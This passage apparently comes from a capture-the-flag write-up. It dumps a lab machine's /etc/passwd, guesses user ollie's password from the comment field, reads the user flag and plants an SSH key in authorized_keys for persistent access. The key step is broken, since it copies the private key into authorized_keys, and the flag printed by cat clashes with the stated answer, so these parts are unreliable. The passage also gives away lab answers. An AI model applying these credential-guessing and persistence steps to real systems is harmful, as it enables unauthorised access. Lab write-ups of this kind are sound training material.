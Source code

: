 ```
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ollie:x:1000:1000:ollie unix montgomery:/home/ollie:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:118:MySQL Server,,,:/nonexistent:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
fwupd-refresh:x:115:120:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
ubuntu:x:1001:1002:Ubuntu:/home/ubuntu:/bin/bash
```

So it's just root, ollie and ubuntu.

I found the flag in Ollie's home directory but I cannot access as www-data

Interestingly in the passwd file it has "ollie unix montgomery". I wonder if it's the same password as the web
```bash
su ollie
<OllieUnixMontgomery!>
```

Yes! We're now Ollie. Let's get that first flag!

```bash
cat /home/ollie/user.txt
THM{Ollie_boi_is_daH_Cut3st}
```
**Q. What is the user.txt flag?
A. flag{14370304172628f784d8e8962d54a600}

I wonder if we can ssh in? Nope, it's says public key needed. However we can create our own ssh keys. Thank you John Hammond for showing me how!

Go to ollie's home drive (/home/ollie)

```bash
mkdir .ssh
cd .ssh
ssh-keygen
cat id_rsa > authorized_keys

cat id_rsa
```
Copy the private key into clipboard and paste into a new file on your attacker machine called rsa-id. Chmod 600 so that you have perms to use it. Then let's SSH in!
```bash
ssh -i id_rsa ollie@10.10.55.216
```
yes, we are now ssh'd in! 
